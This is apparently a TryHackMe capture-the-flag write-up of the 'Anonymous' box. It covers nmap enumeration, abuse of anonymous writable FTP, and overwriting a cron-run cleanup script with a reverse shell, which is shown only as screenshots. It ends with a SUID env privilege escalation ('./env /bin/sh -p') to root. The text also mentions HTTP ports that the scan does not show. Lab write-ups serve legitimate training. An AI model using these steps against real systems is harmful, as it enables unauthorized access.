# THM - Anonymous

#### Ip: 10.10.2.68
#### Name: Anonymous
#### Rating: Medium

----------------------------------------------------------------------

![anonymous.png](../assets/anonymous_assets/anonymous.png)

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. Here I'll also use the `-sC` and `-sV` flags to use basic scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/THM/Anonymous]
└─$ sudo nmap -p-  --min-rate 10000 10.10.2.68 -sC -sV                    
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-27 12:46 CDT
Warning: 10.10.2.68 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.2.68
Host is up (0.28s latency).
Not shown: 63512 closed tcp ports (reset), 2019 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.2.6.181
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8bca21621c2b23fa6bc61fa813fe1c68 (RSA)
|   256 9589a412e2e6ab905d4519ff415f74ce (ECDSA)
|_  256 e12a96a4ea8f688fcc74b8f0287270cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 0s, deviation: 1s, median: -1s
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2023-09-27T17:47:24
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2023-09-27T17:47:24+00:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 57.28 seconds
```

The first things that jump out at me here are that there is anonymous access to the FTP server enabled, and also that there are open HTTP ports.

Lets check out FTP first.

Looks like there are 3 files in a directory called `scripts`, lets bring these back for examination using `mget *`:

```text
┌──(ryan㉿kali)-[~/THM/Anonymous]
└─$ ftp 10.10.2.68                           
Connected to 10.10.2.68.
220 NamelessOne's FTP Server!
Name (10.10.2.68:ryan): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||57356|)
150 Here comes the directory listing.
drwxr-xr-x    3 65534    65534        4096 May 13  2020 .
drwxr-xr-x    3 65534    65534        4096 May 13  2020 ..
drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts
226 Directory send OK.
ftp> cd scripts
250 Directory successfully changed.
ftp> ls -la
229 Entering Extended Passive Mode (|||46328|)
150 Here comes the directory listing.
drwxrwxrwx    2 111      113          4096 Jun 04  2020 .
drwxr-xr-x    3 65534    65534        4096 May 13  2020 ..
-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
-rw-rw-r--    1 1000     1000          989 Sep 27 17:49 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
226 Directory send OK.
ftp> mget *
mget clean.sh [anpqy?]? y
229 Entering Extended Passive Mode (|||36906|)
150 Opening BINARY mode data connection for clean.sh (314 bytes).
100% |********************************************************************************|   314        2.99 MiB/s    00:00 ETA
226 Transfer complete.
314 bytes received in 00:00 (1.46 KiB/s)
mget removed_files.log [anpqy?]? y
229 Entering Extended Passive Mode (|||16050|)
150 Opening BINARY mode data connection for removed_files.log (989 bytes).
100% |********************************************************************************|   989        6.33 MiB/s    00:00 ETA
226 Transfer complete.
989 bytes received in 00:00 (3.17 KiB/s)
mget to_do.txt [anpqy?]? y
229 Entering Extended Passive Mode (|||32003|)
150 Opening BINARY mode data connection for to_do.txt (68 bytes).
100% |********************************************************************************|    68        1.04 KiB/s    00:00 ETA
226 Transfer complete.
68 bytes received in 00:00 (0.16 KiB/s)
ftp> bye
221 Goodbye.
```

Looking at the files:

```text
┌──(ryan㉿kali)-[~/THM/Anonymous]
└─$ cat to_do.txt 
I really need to disable the anonymous login...it's really not safe
                                                                                                                             
┌──(ryan㉿kali)-[~/THM/Anonymous]
└─$ cat removed_files.log 
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
```

Looks like the cleanup script may be running as a cronjob?

Lets look at the script itself:

cleanup.png

Yeah looks like the script simply removes files and if there is nothing to remove echoes "nothing to delete" to the log file.

### Exploitation

Lets try modifying the cleanup.sh script to execute a reverse shell when run. We can add a reverse shell one-liner to the end of the script:

shell.png

Saving the file and logging back into FTP we can usee the `put` command to overwrite cleanup.sh with our reverse shell:

put.png

Nice, that worked! 

Now that we are on the box we can grab the user.txt flag:

user_flag.png

### Privilege Escalation

Lets go ahead and transfer over LinPEAS to help enumerate a privilege escalation vector:

transfer.png

LinPEAS find that `/usr/bin/env` has the SUID bit set. 

env.png

Lets head over to https://gtfobins.github.io/gtfobins/env/ for the command we'll need.

gtfo.png

Lets give it a shot:

```text
namelessone@anonymous:/tmp$ cd /usr/bin
namelessone@anonymous:/usr/bin$ ./env /bin/sh -p
# whoami
root
# id
uid=1000(namelessone) gid=1000(namelessone) euid=0(root) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

Nice! All we need to do now is grab the root.txt flag:

root_flag.png

Thanks for following along!

-Ryan

-------------------------------------------------------------


